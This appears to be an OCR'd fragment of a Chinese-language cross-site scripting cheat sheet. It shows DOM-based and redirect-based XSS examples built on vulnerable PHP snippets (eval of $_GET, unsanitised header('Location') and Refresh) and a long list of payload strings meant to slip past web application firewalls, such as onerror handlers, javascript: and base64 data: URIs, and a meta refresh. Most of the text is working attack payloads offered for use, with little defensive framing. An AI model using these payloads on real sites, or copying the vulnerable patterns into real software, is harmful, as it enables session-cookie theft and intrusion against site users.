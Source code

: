 利用: /?xss=500); alert(document.cookie);//

•基于DOM的XSS

示例: <script> ... eval($_GET[xss]); ... </script>

利用: /?xss=document.cookie

通过请求重定向构造XSS
•存在漏洞代码:

...

 header('Location: '.$_GET['param']);

...

同样包括:

...

 header('Refresh: 0; URL='.$_GET['param']);

...

•这种请求不会绕过WAF:

/?param=javascript:alert(document.cookie)

•这种请求可以绕过WAF并且XSS攻击可以在某些浏览器执行:

/?param=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

绕过WAF可用字符串.

<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">

<Video> <source onerror = "javascript: alert (XSS)">

<Input value = "XSS" type = text>

<applet code="javascript:confirm(document.cookie);">

<isindex x="javascript:" onmouseover="alert(XSS)">

"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

"><img src="x:x" onerror="alert(XSS)">

"><iframe src="javascript:alert(XSS)">

<object data="javascript:alert(XSS)">

<isindex type=image src=1 onerror=alert(XSS)>

<img src=x:alert(alt) onerror=eval(src) alt=0>

<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>

<iframe/src="data:text/html,<svg onload=alert(1)>">

<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
